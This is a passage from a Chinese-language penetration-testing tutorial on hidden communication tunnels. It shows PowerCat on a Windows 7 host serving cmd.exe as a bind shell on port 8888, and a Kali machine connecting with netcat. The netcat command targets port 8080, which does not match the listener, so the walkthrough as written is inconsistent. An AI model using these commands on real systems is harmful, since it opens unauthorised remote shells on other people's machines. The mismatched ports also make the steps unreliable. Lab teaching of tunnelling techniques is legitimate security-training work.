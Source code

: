 （2）通过nc正向连接PowerCat

在Windows7服务器上执行监听命令：

```
powercat -l -p 8888 -e cmd.exe -v
```

![](./img/隐藏通信隧道基础知识/47.png)

然后再Kali主机上执行命令：

```
nc 192.168.2.13 8080 -vv
```

![](./img/隐藏通信隧道基础知识/48.png)
